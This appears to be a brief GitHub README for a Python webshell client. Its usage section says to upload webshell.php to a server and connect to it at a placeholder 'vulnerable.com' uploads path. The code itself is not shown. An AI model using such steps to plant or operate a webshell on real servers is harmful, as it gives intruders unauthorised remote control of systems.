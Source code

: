 # Wefir's webshell
A custom webshell client written in python.
<br>
Inspired by <a href="https://github.com/flozz/p0wny-shell">P0wny-shell</a> and <a href="https://github.com/epinna/weevely3">weevely</a>.
## Demo
<video width="320" height="240" controls>
  <source src="[movie.mp4](https://youtu.be/ld4KawtVH28)" type="video/mp4">
  https://youtu.be/ld4KawtVH28
</video>
## Usage
#### 1.Upload webshell.php to the server
#### 2.Connect to the webshell with the command:
```
python3 client.py -u [https://vulnerable.com/uploads/webshell.php]
```

